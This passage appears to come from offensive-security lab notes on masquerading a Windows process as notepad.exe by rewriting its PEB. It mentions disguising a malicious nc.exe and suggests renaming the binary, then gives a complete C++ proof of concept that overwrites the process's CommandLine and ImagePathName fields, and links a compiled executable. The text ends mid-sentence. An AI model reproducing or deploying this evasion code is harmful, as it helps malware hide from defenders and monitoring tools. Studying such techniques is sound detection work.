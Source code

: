 Inspecting our malicious nc.exe process again using Process Explorer reveals that it now looks like notepad without commandline arguments:

![](../../.gitbook/assets/masquerade-14.png)

Note that to further obfuscate the malicious binary, one could also rename the binary itself from nc.exe to notepad.exe.

## A simple PoC

As part of this simple lab, I wanted to write a simple C++ proof of concept that would make the running program masquerade itself as a notepad. Here is the code:

{% code title="pebmasquerade.cpp" %}
```cpp
#include "stdafx.h"
#include "Windows.h"
#include "winternl.h"

typedef NTSTATUS(*MYPROC) (HANDLE, PROCESSINFOCLASS, PVOID, ULONG, PULONG);

int main()
{
	HANDLE h = GetCurrentProcess();
	PROCESS_BASIC_INFORMATION ProcessInformation;
	ULONG lenght = 0;
	HINSTANCE ntdll;
	MYPROC GetProcessInformation;
	wchar_t commandline[] = L"C:\\windows\\system32\\notepad.exe";
	ntdll = LoadLibrary(TEXT("Ntdll.dll"));

	//resolve address of NtQueryInformationProcess in ntdll.dll
	GetProcessInformation = (MYPROC)GetProcAddress(ntdll, "NtQueryInformationProcess");

	//get _PEB object
	(GetProcessInformation)(h, ProcessBasicInformation, &ProcessInformation, sizeof(ProcessInformation), &lenght);

	//replace commandline and imagepathname
	ProcessInformation.PebBaseAddress->ProcessParameters->CommandLine.Buffer = commandline;
	ProcessInformation.PebBaseAddress->ProcessParameters->ImagePathName.Buffer = commandline;

	return 0;
}
```
{% endcode %}

{% file src="../../.gitbook/assets/pebmasquerade.exe" %}
pebmasquerade.exe
{% endfile %}

..and here is the compiled running program being inspected with ProcExplorer - we can see that the masquerading is achieved successfully:
